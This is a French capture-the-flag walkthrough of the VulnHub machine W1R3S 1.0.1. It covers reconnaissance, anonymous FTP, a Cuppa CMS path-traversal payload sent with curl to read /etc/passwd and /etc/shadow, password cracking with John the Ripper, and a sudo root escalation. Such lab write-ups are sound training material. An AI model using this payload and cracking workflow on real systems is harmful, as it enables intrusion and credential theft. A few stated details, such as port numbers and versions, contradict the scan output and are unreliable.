


# W1R3S: 1.0.1

[W1R3S: 1.0.1](https://www.vulnhub.com/entry/w1r3s-101,220/) est une machine virtuelle vulnérable, conçue par SpecterWires et publiée sur VulnHub au mois de février 2018. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

## Synopsis

_You have been hired to do a penetration test on the W1R3S.inc individual server and report all findings. They have asked you to gain root access and find the flag (located in /root directory). Difficulty to get a low privileged shell: Beginner/Intermediate. Difficulty to get privilege escalation: Beginner/Intermediate. About: This is a vulnerable Ubuntu box giving you somewhat of a real world scenario and reminds me of the OSCP labs. If you need any hints, pointers or have questions feel free to email me: specterinthewires at gmail dot com_

## Recherche d'informations

Pour commencer, l'outil [__netdiscover__](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM W1R3S : il s'agit de 192.168.56.101.



```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:10      1      60  Unknown vendor
192.168.56.100  08:00:27:16:fa:f7      1      60  PCS Systemtechnik GmbH
192.168.56.101  08:00:27:c6:a3:34      1      60  PCS Systemtechnik GmbH
```

Toute phase d'attaque commence par une analyse du système cible. Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. Il est ainsi notamment possible de se connecter à distance avec SSH (port 22) au serveur W1R3S ; un serveur Web Apache 2.4.25 (port 80), un serveur FTP (port 22) et une base de données MySQL (port 3306) y sont par ailleurs installés.

```console
root@blinils:~# nmap -sT -sV -p- 192.168.56.101
Nmap scan report for 192.168.56.101
Host is up (0.0021s latency).
Not shown: 55528 filtered ports, 10003 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
3306/tcp open  mysql   MySQL (unauthorized)
MAC Address: 08:00:27:C6:A3:34 (Oracle VirtualBox virtual NIC)
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP comme Fake! it's a TraP!

Mon attention s'est tout d'abord portée sur le serveur FTP. Et cela tombe plutôt bien : comme il est en accès libre ([_anonymous FTP_](https://en.wikipedia.org/wiki/File_Transfer_Protocol#Anonymous_FTP)), il est possible de récupérer sans login ni mot de passe le contenu des répertoires ```content```, ```docs``` et ```new-employees``` listés par nmap.

```console
root@blinils:~# nmap -sT -sV -p21 -A 192.168.56.101
Nmap scan report for 192.168.56.101
Host is up (0.00050s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

--snip--
```

Dans le répertoire ```content``` sont stockés trois fichiers texte, numérotés de 01 à 03. Deux d'entre eux sont des bannières sans grand intérêt pour la résolution du CTF ; en revanche, le fichier numéro 02 contient un hash MD5 ```01ec2d8fc11c493b25029fb1f47f39ce``` qui, [après une recherche rapide](https://md5hashing.net/hash/md5/ad4f5cad1c3882776490d7f19fa18e6f/), est lui-même le hash MD5 de la valeur ```ad4f5cad1c3882776490d7f19fa18e6f```, ainsi qu'une chaîne en base64 ```SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==``` correspondant à _```It is easy, but not that easy..```_ une fois décodée.

Y a-t-il davantage de matière avec les deux autres répertoires ? Eh bien... dans la même veine que le fichier numéro 03, à la sauce normande, p’têt ben qu’oui, p’têt ben qu’non ! Le fichier ```worktodo.txt``` présent dans ```docs``` contient des écritures inversées (miroir de haut en bas, mais aussi de droite à gauche), _```we have a lot of work to do, stop playing around....```_ et _```I don't think this is the way to root!```_ ce qui pourrait être une façon de signifier que l'on fait fausse route, et que ce serveur FTP n'est qu'un leurre.

Cependant, le dernier fichier ```employee-names.txt``` apporte une touche d'optimisme : en effet, la liste des employés de W1R3S.inc peut nous fournir de potentiels logins pour nous connecter au serveur en SSH. Une fois la liste de logins constituée (naomi, naomiw, wnaomi...), on peut passer à la suite : le serveur Web !

```console
root@blinils:~# cat employee-names.txt
The W1R3S.inc employee list

Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources
```

## Local File Inclusion (LFI) sur l'une des pages de Cuppa CMS

À présent, y a-t-il des répertoires « cachés » présents sur le site ? Pour le savoir, l'outil [__DIRB__](https://tools.kali.org/web-applications/dirb) va se servir d'une liste pré-établie de répertoires afin de déterminer l'arborescence du site. Il s'agit là d'une [attaque par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking), a contrario d'une [attaque par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consisterait à tester, de manière exhaustive, toutes les combinaisons possibles : aa, ab, ac... zy zz aaa aab... zzy zzz aaaa aaab... et ainsi de suite. DIRB dispose d'un [large panel de dictionnaires](https://github.com/digination/dirbuster-ng/tree/master/wordlists), ainsi plusieurs résultats sont renvoyés avec le dictionnaire ```common.txt```.

```console
root@blinils:~# dirb http://192.168.56.101

--snip--
URL_BASE: http://192.168.56.101/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.56.101/ ----
==> DIRECTORY: http://192.168.56.101/administrator/
+ http://192.168.56.101/index.html (CODE:200|SIZE:11321)
==> DIRECTORY: http://192.168.56.101/javascript/
+ http://192.168.56.101/server-status (CODE:403|SIZE:302)
==> DIRECTORY: http://192.168.56.101/wordpress/

--snip--
```

* _/index.html_ est la page par défaut d'Apache 2 pour Ubuntu.
* _/server-status_ renvoie une erreur 403 Forbidden.
* _/wordpress_ redirige vers localhost : pour corriger le problème, la ligne ```192.168.56.101	localhost``` est à ajouter dans le fichier /etc/hosts.
* _/administrator_ est la page d'installation de Cuppa CMS.

Un scan avec l'outil [WordPress Security Scanner](https://github.com/wpscanteam/wpscan) n'a rien révélé de particulier, si ce n'est un [_directory listing_](https://www.it-connect.fr/quest-ce-que-le-directory-browsinglisting/) sur le répertoire ```uploads```, mais il n'y a aucun fichier intéressant à se mettre sous la dent, juste des images au format JPG.



En revanche, la première occurrence de ```Cuppa CMS``` dans Google est une vulnérabilité décrite sur le site [Exploit-DB](https://www.exploit-db.com/exploits/25971/). Il s'agit d'une [inclusion de fichier local](https://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_remote file inclusion_ en anglais) via le fichier ```alertConfigField.php``` et son paramètre ```urlConfig```. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site.

Exemple avec le fichier ```/etc/passwd``` qui contient la liste des utilisateurs du système.

```console
root@blinils:~# curl http://192.168.56.101/administrator/alerts/alertConfigField.php --data urlConfig=../../../../../../../../etc/passwd
--snip--
   <div id="content_alert_config" class="content_alert_config">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
--snip--
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```

À ma grande surprise, il est également possible de consulter le fichier ```/etc/shadow```, qui contient [les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd) et qui n'est censé être accessible que par root !

```console
root@blinils:~# curl http://192.168.56.101/administrator/alerts/alertConfigField.php --data urlConfig=../../../../../../../../etc/shadow
--snip--
    <div id="content_alert_config" class="content_alert_config">
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
daemon:*:17379:0:99999:7:::
bin:*:17379:0:99999:7:::
sys:*:17379:0:99999:7:::
sync:*:17379:0:99999:7:::
--snip--
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
backup:*:17379:0:99999:7:::
list:*:17379:0:99999:7:::
irc:*:17379:0:99999:7:::
--snip--
usbmux:*:17379:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

C'était assez inattendu ! Tant mieux, l'outil [__John The Ripper__](https://www.openwall.com/john/) est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow```, comme suit... Au passage, John a également trouvé le mot de passe de ```www-data``` qui n'est autre que... ```www-data```.

```console
root@blinils:~# unshadow passwd.txt shadow.txt > logins.db
root@blinils:~# john logins.db --wordlist=/media/sf_share/dicts/500-worst-passwords.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (w1r3s)
1g 0:00:00:02 DONE (2018-08-08 08:08) 0.4608g/s 230.4p/s 519.8c/s 519.8C/s arthur..albert
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Élévation de privilèges (root)

La fin de ce CTF est une formalité.

w1r3s est autorisé à exécuter toutes les commandes via sudo, on peut alors passer root avec la commande ```sudo su```.

```console
root@blinils:~# ssh w1r3s@192.168.56.101
----------------------
Think this is the way?
----------------------
Well,........possibly.
----------------------
w1r3s@192.168.56.101's password: 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.13.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

108 packages can be updated.
6 updates are security updates.

.....You made it huh?....
Last login: Mon Jan 22 22:47:27 2018 from 192.168.0.35

w1r3s@W1R3S:~$
w1r3s@W1R3S:~$ sudo -l
sudo: unable to resolve host W1R3S: Connection refused
[sudo] password for w1r3s: 
Matching Defaults entries for w1r3s on W1R3S:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User w1r3s may run the following commands on W1R3S:
    (ALL : ALL) ALL
	
w1r3s@W1R3S:~$ sudo su
sudo: unable to resolve host W1R3S: Connection refused

root@W1R3S:/home/w1r3s# id
uid=0(root) gid=0(root) groups=0(root)

root@W1R3S:/home/w1r3s# wc -c /root/flag.txt
2043 /root/flag.txt
```

## Conclusion

Toutes les fausses pistes rencontrées me laissent comme un goût d'inachevé, et c'est dommage. À moins de n'avoir sauté des étapes...? mais ce ne semble pas être le cas, à la lecture d'autres _walkthroughs_ publiés sur Internet en début d'année. Bien qu'il s'agisse au départ d'une simulation de pentest, beaucoup d'éléments trouvés au cours du CTF — le mystérieux hash MD5 de W1R3S Inc, la liste des employés, le WordPress de l'entreprise, etc. — auraient mérité un meilleur sort, une meilleure utilisation dans la résolution de ce challenge.

Néanmoins, merci beaucoup à SpecterWires pour la création de cette VM !